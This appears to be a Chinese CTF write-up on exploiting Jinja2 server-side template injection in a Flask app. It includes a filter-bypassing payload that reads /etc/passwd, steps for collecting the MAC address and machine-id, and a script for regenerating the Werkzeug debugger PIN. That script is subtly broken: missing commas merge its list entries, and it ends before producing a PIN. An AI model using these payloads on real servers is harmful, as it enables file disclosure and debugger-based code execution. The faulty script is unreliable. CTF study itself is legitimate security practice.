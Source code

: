 使用了 `render_template_string` 进行渲染

填入 base64 编码后的 `{{ config }}`

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209131612172.png)

存在 ssti

过滤了 \_\_import\_\_ os popen 之类的关键词, 可以拼接绕过 (这时候其实可以非预期了...)

根据报错信息可以知道环境是 python3, 构造下 payload

先读取 /etc/passwd

```python
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}
{%endif%}
{%endfor%}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209131614148.png)

推测用户是 flaskweb

然后在报错信息中找到 app.py 的路径

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209131615112.png)

读取 mac 地址

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209131616558.png)

用 `int('bea35d10966d',16)` 转成十进制后为 `209608850314861`

最后是读取系统 id, 这个在不同 flask 版本 (2020.1.5 前后) 的拼接方式还不太一样... 参考文章里写的比较详细

测试的时候发现直接读取 /etc/machine-id 就行

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209131621946.png)

利用文章里给出的脚本生成 pin

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '209608850314861',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '1408f836b0ca514d796cbf8960e45fa1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

```